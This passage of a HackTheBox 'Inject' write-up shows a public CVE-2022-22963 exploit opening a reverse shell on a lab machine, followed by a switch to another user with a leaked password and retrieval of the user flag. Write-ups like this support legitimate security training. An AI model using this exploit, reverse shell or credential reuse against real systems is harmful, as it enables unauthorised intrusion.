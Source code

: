 ```
┌──(matt㉿HackTheBoxKali)-[~/Inject]
└─$ git clone https://github.com/J0ey17/CVE-2022-22963_Reverse-Shell-Exploit.git
Cloning into 'CVE-2022-22963_Reverse-Shell-Exploit'...
remote: Enumerating objects: 10, done.
remote: Counting objects: 100% (10/10), done.
remote: Compressing objects: 100% (10/10), done.
remote: Total 10 (delta 1), reused 0 (delta 0), pack-reused 0
Receiving objects: 100% (10/10), 4.06 KiB | 4.06 MiB/s, done.
Resolving deltas: 100% (1/1), done.
                                                                                                                                                                                                                                             
┌──(matt㉿HackTheBoxKali)-[~/Inject]
└─$ cd CVE-2022-22963_Reverse-Shell-Exploit 
```
Clone the repository from GitHub and change into the POC's directory.  

```
┌──(matt㉿HackTheBoxKali)-[~/Inject/CVE-2022-22963_Reverse-Shell-Exploit]
└─$ python3 exploit.py -u http://10.10.11.204:8080/
[+] Target http://10.10.11.204:8080/

[+] Checking if http://10.10.11.204:8080/ is vulnerable to CVE-2022-22963...

[+] http://10.10.11.204:8080/ is vulnerable

[/] Attempt to take a reverse shell? [y/n]y
listening on [any] 4444 ...
[$$] Attacker IP:  10.10.14.8
connect to [10.10.14.8] from (UNKNOWN) [10.10.11.204] 35682
bash: cannot set terminal process group (824): Inappropriate ioctl for device
bash: no job control in this shell
frank@inject:/$ id
id
uid=1000(frank) gid=1000(frank) groups=1000(frank)
frank@inject:/$ pwd
pwd
/
frank@inject:/$
```
The exploit uses only packages that are included in the standard Python library. We can simply launch the exploit.py file with a single argument of the target URL. The exploit checks if the application is vulnerable before offering to create a reverse shell, answering yes the app asks for our IP address where we will receive the reverse shell connection. And as simple as that we have a shell as user Frank on the target machine.  
&nbsp;   

## Privilege Escalation - User

```
frank@inject:/$ su phil
su phil
Password: DocPhillovestoInject123
id
uid=1001(phil) gid=1001(phil) groups=1001(phil),50(staff)
python3 -c 'import pty;pty.spawn("/bin/bash")'
phil@inject:/$
phil@inject:~$ cd ~/ 
cd ~/
phil@inject:~$ cat user.txt
cat user.txt
bebb2d54*************
```
Using the credentials we previously identified in the Apache Maven settings.xml file lets try to switch user to 'Phil', this is successful and I will use a Python one-liner to provide us with a better command prompt.

[//]: # (Project: HTB Machine Writeups - Generated with Python3)  
[//]: # (Title: HTB Inject Writeup)  
[//]: # (Author: M4773L)  
[//]: # (Date: 21/06/2023 - 05:04 PM)  
[//]: # (Date_Modified: ) 
[//]: # (WEBSITE_URL: http://m4773l.github.io)
[//]: # (GITHUB_REPO_URL: https://github.com/M4773L)
[WARNING]: provided hosts list is empty, only localhost is available. Note that